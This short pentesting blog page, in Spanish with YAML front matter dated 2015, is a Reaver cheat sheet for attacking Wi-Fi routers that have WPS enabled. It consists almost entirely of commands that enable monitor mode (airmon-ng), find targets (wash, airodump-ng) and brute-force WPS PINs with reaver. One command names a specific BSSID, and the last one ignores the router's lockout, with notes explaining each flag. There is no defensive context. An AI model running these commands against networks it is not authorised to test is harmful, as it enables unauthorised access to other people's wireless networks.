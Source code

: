 ```yaml
---
title: Reaver
description: 
date: 2015-09-03
lastmod: 2015-09-03
slug: reaver
image: "covers/pentesting.png"
tags:
  - reaver
  - aircrack
  - wifi
categories:
  - Pentesting
---
```




`airmon-ng start wlan0`

`wash -i mon0`

`reaver -i mon0 -b 30:46:9A:7C:C4:CA -vv -c 8`

`iwconfig`

`airmon-ng start wlan0`

`airodump-ng mon0`


`reaver -i mon0 -vv -b (BSSID del target del AP ) -S -L`
```
-vv: para indicarle que nos muestre como va haciendo su trabajo.
-i: el interface.
-b: BSSID del target del AP.
-S: para que utilice claves pequeñas DH para mejorar la velocidad.
-L: para ignorar el estado locked que nos envía el AP.
```
